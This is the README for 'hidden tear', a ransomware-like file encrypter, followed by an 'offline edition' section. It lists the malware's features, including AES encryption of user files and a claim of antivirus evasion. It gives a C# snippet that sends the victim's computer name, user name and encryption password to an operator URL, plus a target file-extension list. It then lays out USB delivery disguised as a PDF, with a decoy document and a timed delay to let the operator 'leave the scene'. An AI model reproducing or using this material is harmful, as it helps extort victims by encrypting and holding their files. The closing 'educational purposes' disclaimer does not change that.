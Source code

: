          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypted in decryption program with encryption key.
* Creates a text file on Desktop with given message.
* Small file size (12 KB)
* Undetectable by antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
## Hidden Tear Offline Edition or: How I Learned to Stop Worrying and Love the Criminal Mind

What if there is a computer with full of important files and what if it has no internet or network connection. We can access it physicaly. But what if we were being watched, how can we execute hidden tear and get the encryption key?

**Demonstration Video**

https://www.youtube.com/watch?v=ayjv_aAwO0k

**Prerequisites**

Firstly you should have a usb stick which includes:

* exe file of hidden tear offline with a pdf icon.
* a normal pdf file like hotel reservation, ticket, lecture notes (that depends on your social engineering scenario)
* a txt file

**Workflow**

After you plugged usb stick to the computer, double click to .exe file. Don't worry, the normal pdf file will be open.

Hidden tear offline creates an encryption key and saves it into the txt file which is inside your usb stick. After than it copies exe file to the computer and executes. This process will be done in seconds. After than, you can unplug your usb stick.

Hidden tear offline will wait for some time which specified before, lets say 10 minutes. After 10 minutes, it will encrypt all the target files in computer. This part is same with the original hidden tear.

**Usage**

* Hidden tear offline will save the encryption key inside this txt file.

`string usbPassword = "adobe.txt";`

* It copies itself to this path after the first execution.

`string exePath = userDir + userName + "\\table.exe";`

* Name of the normal pdf file.

`System.Diagnostics.Process.Start("ticket.pdf");`

* `Timer1`'s interval represents the encryption start time. If you set it to 600000 miliseconds, encryption action will start after 10 minutes the first execution. If you need more time to leave the scene, you can increase the interval.

## Legal Warning

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

## Thanks

Special thanks to Ikikardes who helped me to publish this code.
